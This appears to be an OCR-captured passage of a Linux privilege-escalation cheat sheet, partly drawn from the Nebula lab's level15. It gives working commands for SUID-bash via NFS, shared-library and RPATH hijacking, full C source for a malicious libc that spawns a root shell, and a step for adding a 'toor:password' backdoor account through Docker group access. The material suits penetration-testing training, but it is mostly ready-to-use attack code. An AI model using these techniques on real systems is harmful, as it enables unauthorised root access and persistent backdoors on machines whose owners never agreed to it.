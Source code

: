     mount -t nfs 10.10.10.10:/shared /tmp/nfsdir    
    cd /tmp/nfsdir

    # copy wanted shell 
    
    cp /bin/bash .  

    # set suid permission
    
    chmod +s bash   
    Shared Library
    ldconfig
    Identify shared libraries with ldd


    $ ldd /opt/binary
        linux-vdso.so.1 (0x00007ffe961cd000)
        vulnlib.so.8 => /usr/lib/vulnlib.so.8 (0x00007fa55e55a000)
        /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007fa55e6c8000)        
    Create a library in /tmp and activate the path.


    gcc –Wall –fPIC –shared –o vulnlib.so /tmp/vulnlib.c
    echo "/tmp/" > /etc/ld.so.conf.d/exploit.conf && ldconfig -l /tmp/vulnlib.so
    /opt/binary
    RPATH

    level15@nebula:/home/flag15$ readelf -d flag15 | egrep "NEEDED|RPATH"
     0x00000001 (NEEDED)                     Shared library: [libc.so.6]
     0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]

    Cyber_Public_School@lab:/home/flag15$ ldd ./flag15 
     linux-gate.so.1 =>  (0x0068c000)
     libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x00110000)
     /lib/ld-linux.so.2 (0x005bb000)
    By copying the lib into /var/tmp/flag15/ it will be used by the program in this place as specified in the RPATH variable.


level15@nebula:/home/flag15$ cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/

level15@nebula:/home/flag15$ ldd ./flag15 
 linux-gate.so.1 =>  (0x005b0000)
 libc.so.6 => /var/tmp/flag15/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x00737000)
Then create an evil library in /var/tmp with gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6


#include<stdlib.h>
#define SHELL "/bin/sh"

int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
 char *file = SHELL;
 char *argv[] = {SHELL,0};
 setresuid(geteuid(),geteuid(), geteuid());
 execve(file,argv,0);
}
Groups
Docker
Mount the filesystem in a bash container, allowing you to edit the /etc/passwd as root, then add a backdoor account toor:password.
